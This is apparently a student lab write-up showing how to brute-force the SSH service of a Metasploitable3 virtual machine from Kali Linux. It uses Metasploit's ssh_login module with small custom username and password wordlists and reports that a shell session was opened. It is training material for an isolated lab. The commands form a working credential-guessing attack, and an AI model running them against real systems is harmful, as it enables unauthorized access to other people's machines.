









#  Task 1.1 – Use Kali Linux tool Metasploit to compromise the service.

## 🎯 Objective
Compromise the SSH service of Metasploitable3 from Kali Linux using Metasploit and gain unauthorized access.

---

## 🖥️ Environment Setup

| Machine            | IP Address      | Role         |
|--------------------|------------------|--------------|
| Kali Linux         | 192.168.64.2       | Attacker     |
| Metasploitable3    | 192.168.64.3       | Victim       |

---

## 🛠 Tools Used

- **Kali Linux** – Attack platform
- **Metasploit Framework** – Exploitation tool
- **Metasploitable3** – Vulnerable target machine

---

## 🔍 Steps Performed

### ✅ Step 1: Start Metasploit
Open a terminal in Kali Linux and type:

```bash
msfconsole
```


### ✅ Step 2: Select the SSH Login Scanner Module

Open Metasploit and type the following to use the SSH login scanner:

```bash
use auxiliary/scanner/ssh/ssh_login
```


### ✅ Step 3: Create Custom Wordlists
``` bash
echo -e "root\nmsfadmin\nuser\nadmin" > /home/kali/ssh-brute/users.txt
echo -e "root\nmsfadmin\ntoor\n123456" > /home/kali/ssh-brute/pass.txt
```


### ✅ Step 4: Edit the Wordlists Using Nano

After creating the wordlists, open them with `nano` to make sure they contain the correct entries.

#### 📝 Edit the usernames file:

```bash
nano /home/kali/ssh-brute/users.txt
```
#### 📝 Edit the passwords file:

```bash
nano /home/kali/ssh-brute/pass.txt
```


#### content of the users file:



#### content of the passwords file:


### ✅ Step 5: Configure the Metasploit Module

Now that the wordlists are ready, configure Metasploit with the correct options:

```bash
set RHOSTS 192.168.64.3
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```

🔍 **Explanation of each setting:**

- `RHOSTS`: The IP address of the target machine (Metasploitable3)
- `USER_FILE`: Path to the file that contains the list of usernames
- `PASS_FILE`: Path to the file that contains the list of passwords
- `BRUTEFORCE_SPEED`: Controls how fast the attack runs (1 = slow, 5 = fast)
- `THREADS`: Number of parallel login attempts to speed up the scan
- `VERBOSE`: Shows the result of every login attempt in the terminal
### ✅ Step 6: Run the Brute Force Attack

Once everything is configured correctly, run the module to start the brute-force attack:

```bash
run
```




This means Metasploit successfully logged into the target machine via SSH and opened a remote shell session.

---
## ✅ Conclusion

In this task, we used Metasploit in Kali Linux to perform a brute-force attack on the SSH service of Metasploitable3. We created custom wordlists, configured the scanner module, and ran the attack. At the end, Metasploit found the correct login credentials and opened a shell session on the target machine. This proves that we successfully compromised the service.

